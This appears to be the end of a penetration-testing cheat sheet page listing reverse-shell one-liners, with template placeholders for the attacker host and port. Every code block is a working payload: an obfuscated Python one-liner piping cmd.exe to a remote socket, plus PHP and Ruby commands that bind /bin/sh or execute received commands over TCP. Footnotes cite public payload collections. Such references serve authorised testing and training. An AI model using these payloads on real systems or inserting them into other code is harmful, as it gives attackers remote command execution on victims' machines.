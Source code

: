 ```sh
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('{{< param "m.LHOST" >}}', {{< param "m.LPORT" >}})), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

### PHP

```sh
php -r '$sock=fsockopen("{{< param "m.LHOST" >}}",{{< param "m.LPORT" >}});exec("/bin/sh -i <&3 >&3 2>&3");'
```

```sh
php -r '$sock=fsockopen("{{< param "m.LHOST" >}}",{{< param "m.LPORT" >}});$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### Ruby

```sh
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("{{< param "m.LHOST" >}}","{{< param "m.LPORT" >}}");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

```sh
ruby -rsocket -e'f=TCPSocket.open("{{< param "m.LHOST" >}}",{{< param "m.LPORT" >}}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Ruby Windows

```sh
ruby -rsocket -e 'c=TCPSocket.new("{{< param "m.LHOST" >}}","{{< param "m.LPORT" >}}");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.